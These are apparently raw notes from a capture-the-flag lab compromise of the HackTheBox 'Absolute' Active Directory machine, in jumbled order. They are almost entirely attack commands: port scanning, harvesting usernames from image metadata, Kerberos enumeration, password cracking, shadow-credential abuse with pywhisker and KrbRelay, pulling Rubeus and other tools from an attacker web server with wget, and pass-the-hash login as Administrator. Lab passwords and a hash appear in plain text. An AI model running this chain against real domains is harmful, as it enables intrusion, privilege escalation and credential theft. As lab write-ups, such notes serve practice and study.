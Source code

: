 python3 gettgtpkinit.py absolute.htb/winrm_user -cert-pfx <pfx> -pfx-pass <password> winrm_user_ccache

<pfx> is from the pywhisker as is <password>

export KRB5CCNAME=winrm_user_ccache

ntpdate -s absolute.htb

evil-winrm -i  dc.absolute.htb -r absolute.htb

from inside evil-winrm

#https://github.com/cube0x0/KrbRelay
#https://github.com/antonioCoco/RunasCs
#https://github.com/GhostPack/Rubeus

wget http://10.10.14.5:8000/Rubeus.exe -O ./Rubeus.exe
wget http://10.10.14.5:8000/KrbRelay.exe -O ./KK.exe
wget http://10.10.14.5:8000/RunasCs.exe -O ./RunasCs.exe


RunsasCs.exe m.lovegod 'AbsoluteLDAP2022!' -d absolute.htb -l 9 "C:\Users\winrm_user\Documents\KK.exe -spn ldap/dcabsolute.htb -clsid {NUMBERSSSSS} -shadowcred"

evil winrm -i DC.ABSOLUTE.HTB -u Administrator -H 1f4a6093623653f6488d5aa24c75f2ea 


sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn [10.129.159.158](http://10.129.159.158) -oG allPorts
  
  

.cme smb absolute.htb

  

for i in {1..10} ; do wget "[http://absolute.htb/images/hero_$i.jpg](http://absolute.htb/images/hero_$i.jpg)" &>/dev/null; done

  

ls -la

exiftool * | grep Author | awk '{print$3"."$4}'

  

cat PotentialUsernames.txt

  

go run . userenum ../protentialusernames.txt --dc dc.absolute.htb -d absolute.htb

  

john test. txt -w=rockyou.txt

./cme smb absolute.htb -u "d.klay" -p "Darkmoonsky248girl"

  

impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl' -dc-ip dc.absolute.htb

  

export KRB5CCNAME=/home/max/abs/d.klay.ccache

./cme ldap absolute.htb -k --kdcHost dc.absolute.htb --users
